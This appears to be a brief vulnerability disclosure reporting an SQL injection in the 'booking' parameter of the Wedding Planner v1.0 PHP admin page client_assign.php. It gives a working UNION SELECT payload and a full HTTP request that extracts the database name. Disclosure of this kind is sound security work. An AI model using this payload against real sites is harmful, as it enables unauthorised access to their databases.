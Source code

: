 # Wedding Planner v1.0 by pushpam02 has SQL injection

BUG_Author: shark007

vendors: https://www.sourcecodester.com/php/15375/wedding-planner-project-php-free-download.html

Vulnerability File: /Wedding-Management-PHP/admin/client_assign.php?booking=

Vulnerability location: /Wedding-Management-PHP/admin/client_assign.php?booking=, booking

[+] Payload: /Wedding-Management-PHP/admin/client_assign.php?booking=-33%20union%20select%201,2,3,4,5,database(),7,8--+&user_id=33

dbname = dbwedding

```sql
GET /Wedding-Management-PHP/admin/client_assign.php?booking=-33%20union%20select%201,2,3,4,5,database(),7,8--+&user_id=33 HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=ncd6h7doujvbbft46r0m7mbr6s
Connection: close
```


![image](https://user-images.githubusercontent.com/54017627/183276875-ecc7904b-ede0-4def-bb53-8a2f7da8aabc.png)
